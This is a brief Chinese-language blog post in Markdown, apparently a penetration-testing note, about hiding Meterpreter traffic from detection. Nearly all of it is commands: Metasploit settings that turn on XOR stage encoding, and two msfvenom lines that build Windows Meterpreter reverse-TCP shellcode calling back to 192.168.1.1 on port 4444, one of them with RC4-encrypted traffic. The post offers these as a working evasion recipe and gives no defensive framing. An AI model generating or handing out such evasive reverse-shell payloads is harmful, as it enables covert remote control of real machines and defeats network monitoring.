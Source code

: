 ```yaml
---
title: "Meterpreter 流量免杀"
date: 2019-08-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit','bypass']
categories: ['bypass','内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


对 meterpreter 流量进行编码或加密, 有两种方式.

<!--more-->

指定编码方式, 名称与对 shellcode 的编码器相同.

```
set EnableStageEncoding true
set StageEncoder x86/xor_dynamic
set StageEncodingFallback false
```

生成 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 EnableStageEncoding=true StageEncoder=x86/xor_dynamic StageEncodingFallback=false -f c -o shellcode.c
```

或是直接生成通过 rc4 加密流量的 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.1 LPORT=4444 RC4PASSWORD=exp10it -f c -o shellcode.c
```